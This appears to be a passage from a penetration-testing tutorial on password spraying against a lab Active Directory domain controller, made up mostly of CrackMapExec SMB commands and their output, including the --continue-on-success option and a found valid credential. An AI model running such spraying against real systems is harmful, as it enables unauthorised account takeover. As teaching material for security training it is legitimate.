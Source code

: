 ```shell-session
$ crackmapexec smb 10.129.203.121 -u users.txt -p Inlanefreight01!

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\noemi:Inlanefreight01! STATUS_LOGON_FAILURE 
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\david:Inlanefreight01! STATUS_LOGON_FAILURE 
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\carlos:Inlanefreight01! STATUS_LOGON_FAILURE 
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\grace:Inlanefreight01!
```

### **Password Attack with a List of Usernames and a Single Password**

```shell-session
$ crackmapexec smb 10.129.203.121 -u noemi david grace carlos -p Inlanefreight01!

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\noemi:Inlanefreight01! STATUS_LOGON_FAILURE 
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\david:Inlanefreight01! STATUS_LOGON_FAILURE 
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\grace:Inlanefreight01!
```

### **Password Attack with a List of Usernames and Two Passwords**

```shell-session
$ crackmapexec smb 10.129.203.121 -u noemi grace david carlos -p Inlanefreight01! Inlanefreight02!

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\noemi:Inlanefreight01! STATUS_LOGON_FAILURE 
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\noemi:Inlanefreight02! STATUS_LOGON_FAILURE 
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\grace:Inlanefreight01!
```

As we can see from the output, we found only one valid credential in the domain represented in green and starting with the output `[+]`. Nevertheless, not all accounts have been tested. After the first valid credentials are found, CME stops password spraying since it is usually sufficient for the rest of the domain enumeration. Sometimes, it is better to test all accounts because we may find a privileged account. For that purpose, CME comes with the option `--continue-on-success`:

### **Continue on Success**

```shell-session
$ crackmapexec smb 10.129.203.121 -u noemi grace david carlos -p Inlanefreight01! Inlanefreight02! --continue-on-success

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\noemi:Inlanefreight01! STATUS_LOGON_FAILURE 
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\noemi:Inlanefreight02! STATUS_LOGON_FAILURE 
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\grace:Inlanefreight01! 
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\grace:Inlanefreight02! STATUS_LOGON_FAILURE 
```